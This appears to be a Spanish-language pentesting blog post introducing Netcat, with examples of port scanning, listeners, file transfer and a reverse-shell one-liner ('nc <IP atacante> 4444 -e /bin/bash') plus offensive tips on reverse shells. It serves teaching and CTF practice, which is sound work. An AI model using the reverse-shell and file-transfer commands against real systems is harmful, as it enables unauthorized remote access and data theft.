 
---
title: "Netcat: El cuchillo suizo del hacking en la red"
author: "l1ttl3bugc4t"
date: "2025-05-12"
tags: [Netcat, Hacking, Pentesting, Red Team, Escaneo, Shells, Network]
categories: [Cuaderno, Red Team & Chill, CyberChallenges]
---

**Netcat**, también conocido como `nc`, es como ese amigo que sabe hacer de todo:  
**escanea puertos, escucha conexiones, abre shells, transfiere archivos... y más.**  
En el mundo del pentesting, es un **must-have felino** 😼🛠️

---

## 🧠 ¿Qué es Netcat?

Netcat es una herramienta en línea de comandos que permite interactuar con conexiones de red TCP/UDP.  
Su simplicidad y versatilidad la convierten en una navaja suiza de la red.

---

## 🚀 ¿Para qué se usa?

- Escanear puertos
- Enviar/recibir datos a través de sockets
- Crear conexiones reversas o bind shells
- Transferir archivos entre hosts
- Actuar como cliente o servidor

---

## 🛠️ Sintaxis básica

```bash
nc [opciones] [host] [puerto]
```

---

## 🎯 Ejemplos útiles en pentesting

### 📡 Escaneo de puertos
```bash
nc -zv 192.168.1.1 20-80
```
> `-z`: escaneo sin enviar datos  
> `-v`: modo verbose

### 🧪 Servidor de escucha (bind shell)
```bash
nc -lvp 4444
```

### 🐚 Conexión reversa desde la víctima
```bash
nc <IP atacante> 4444 -e /bin/bash
```
> `-e`: ejecuta un programa cuando se conecta (ojo: puede no estar disponible en versiones modernas por seguridad)

### 🔁 Transferencia de archivos
En la máquina receptora:
```bash
nc -lvp 4444 > archivo.txt
```

En la máquina emisora:
```bash
nc <IP objetivo> 4444 < archivo.txt
```

### 🐾 Chat entre dos equipos
Host A:
```bash
nc -lvp 1234
```

Host B:
```bash
nc <IP de A> 1234
```

---

## 🔐 Tips ofensivos

- Usa Netcat junto con reverse shells en payloads de Metasploit
- Muy útil en CTFs para "catch the flag" o comunicarse entre máquinas comprometidas
- Si no tienes `nc`, a veces puedes encontrarlo como `ncat` (versión de Nmap)

---

## 🛡️ Alternativas cuando Netcat no funciona

- `socat`: más potente, pero más complejo
- `bash -i` con redirección de sockets
- `powershell` en Windows para conexiones reversas

---

## 🚩 Conclusión

**Netcat** es simple pero poderoso.  
Cuando se trata de conexiones crudas, shells improvisadas o escaneo ligero, este comando puede sacarte de muchos apuros… o meterte en problemas, si estás del lado oscuro 😏

> ✨ _"El gato que sabe escuchar... también sabe atacar."_ — **l1ttl3bugc4t**

---
